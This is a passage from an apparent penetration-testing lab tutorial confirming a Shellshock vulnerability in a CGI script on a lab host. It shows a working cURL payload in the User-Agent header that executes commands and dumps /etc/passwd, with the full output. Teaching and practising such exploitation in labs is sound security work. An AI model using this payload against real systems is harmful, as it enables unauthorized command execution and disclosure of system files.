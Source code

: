 ```shell-session
2023/03/23 09:26:29 Finished
```

Next, we can cURL the script and notice that nothing is output to us, so perhaps it is a defunct script but still worth exploring further.

```shell-session
$ curl -i http://10.129.204.231/cgi-bin/access.cgi

HTTP/1.1 200 OK
Date: Thu, 23 Mar 2023 13:28:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html
```

### **Confirming the Vulnerability**

To check for the vulnerability, we can use a simple `cURL` command or use Burp Suite Repeater or Intruder to fuzz the user-agent field. Here we can see that the contents of the `/etc/passwd` file are returned to us, thus confirming the vulnerability via the user-agent field.

```shell-session
$ curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
ftp:x:112:119:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
kim:x:1000:1000:,,,:/home/kim:/bin/bash
```

